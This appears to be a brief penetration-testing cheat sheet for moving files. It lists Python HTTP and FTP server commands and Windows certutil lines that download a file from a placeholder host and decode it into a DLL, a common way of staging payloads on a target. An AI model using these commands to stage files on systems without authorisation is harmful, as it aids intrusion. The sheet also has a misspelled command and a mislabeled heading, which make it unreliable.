 # Python SimpleHTTPServer
```c
python -m SimpleHTTPServer <local_port>
```
# Python3 HTTP Server
```c
pyhton3 -m http.server <local_port>
```
# Simple FTP Server
```c
python -m pyftpdlib -p 21 --write
```
# Certutil
// Base64 encoding
```c
certutil.exe -urlcache -split -f "http://<local_ip>/<file>" <file>
```
// Base64 decoding
```c
certutil.exe -decode <file>.txt <file>.dll
```
